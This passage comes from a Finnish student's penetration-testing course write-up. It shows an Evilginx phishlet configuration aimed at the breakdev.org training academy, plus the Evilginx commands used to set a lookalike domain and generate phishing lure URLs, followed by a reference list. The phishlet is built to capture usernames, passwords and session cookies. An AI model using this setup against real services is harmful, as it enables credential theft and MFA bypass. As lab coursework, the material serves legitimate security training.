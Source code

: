 Phislet, jota käytin (kohdat: custom_ip: '127.0.0.1', custom_port: 8080, custom_protocol: 'http' on ChatGPT [^21] tarjoamia (varmanaankin sekoilua, paitsi, että custom_ip ehkä toimi 🤔) ):

```yaml
min_ver: '3.0.0'

proxy_hosts:
  - {phish_sub: 'academy', orig_sub: 'academy', domain: 'breakdev.org', session: true, is_landing: true, auto_filter: true, custom_ip: '127.0.0.1', custom_port: 8080, custom_protocol: 'http'}

auth_tokens:
  - domain: '.academy.breakdev.org'
    keys: ['JSESSIONID']

credentials:
  username:
    key: 'username'
    search: '(.*)'
    type: 'post'
  password:
    key: 'password'
    search: '(.*)'
    type: 'post'

login:
  domain: 'academy.breakdev.org'
  path: '/login'
```

Ehkä toimivat Evilginx komennot olivat siis:

```
config domain security-update.com
```

```
config ipv4 127.0.0.1
```

```
phishlets hostname spring security-update.com
```

```
phishlets enable spring
```

```
lures create spring
```

```
lures get-url <number> 
```

Valitettavasti pitää ajanpuutteen vuoksi siirtyä eteenpäinä, mutta pitää koittaa niin, että tekee seuraavaksi selfsignatulla certillä.


[^1]: Tero Karvinen. Verkkoon tunkeutuminen ja tiedustelu: https://terokarvinen.com/verkkoon-tunkeutuminen-ja-tiedustelu/
[^2]: Lari Iso Anttila. 5. Laboratorio- ja simulaatioympäristöt hyökkäyksissä, moodle: https://hhmoodle.haaga-helia.fi/course/view.php?id=42566&section=1#tabs-tree-start
[^3]: Henry Isakoff: https://henry.isakoff.fi
[^4]: pinkkila. https://github.com/pinkkila/tunkeutumistestaus/blob/main/h1-kybertappoketju.md
[^5]: XQuarzt. https://www.xquartz.org
[^6]: To Kin Hang. How to open xterm for mininet on MacOS: https://im424.medium.com/how-to-open-xterm-for-mininet-on-macos-aae87218cdd9
[^7]: Tharun Shiv. Easy way to SSH into VirtualBox machine | Any OS: https://dev.to/developertharun/easy-way-to-ssh-into-virtualbox-machine-any-os-just-x-steps-5d9i?source=post_page-----aae87218cdd9---------------------------------------
[^8]: mininet: https://github.com/mininet/mininet/wiki/FAQ#x11-forwarding
[^9]: Stack Overflow. xterm not working in mininet: https://stackoverflow.com/questions/38040156/xterm-not-working-in-mininet
[^10]: Stack Exchange. annoying message "X11 connection rejected because of wrong authentication" while there is no problem at all: https://unix.stackexchange.com/questions/162979/annoying-message-x11-connection-rejected-because-of-wrong-authentication-while
[^11]: Lari Iso-Anttila: https://hhmoodle.haaga-helia.fi/pluginfile.php/4252431/mod_resource/content/1/03-mininet.pdf
[^12]: mininet. Mininet VM Setup Notes: https://mininet.org/vm-setup-notes/
[^13]: ssam246. Network-Security-Lab: https://github.com/ssam246/Network-Security-Lab
[^14]: Wikipedia. Internet Control Message Protocol: https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol
[^15]: Layla Gallez. Running Mininet on an M1 with Ubuntu and Parallels: https://www.youtube.com/watch?v=09NF3rzT92M
[^16]: santhisenan. SDN_DDoS_Simulation: https://github.com/santhisenan/SDN_DDoS_Simulation
[^17]: IBM Techology. What is a DDoS Attack?: https://www.youtube.com/watch?v=z503nLsfe5s
[^18]: karthik2522. Network-Security-Lab: https://github.com/karthik2522/Network-Security-Lab
[^19]: kgretzky. Evilginx 3.0: https://github.com/kgretzky/evilginx2
[^20]: Clint & Si. GitHub Phishing Attack: Evilginx2 MFA Bypass Explained | 2024: https://www.youtube.com/watch?v=e7SebbYUS2w
[^21]: OpenAI. ChatGPT: Version 1.2025.112, Model GPT‑4o
[^22]: Cloudflare. How does a SYN flood attack work?: https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/
[^23]: Enat. Performing a TCP SYN Flood Attack: https://www.youtube.com/watch?v=qSqa3s2mank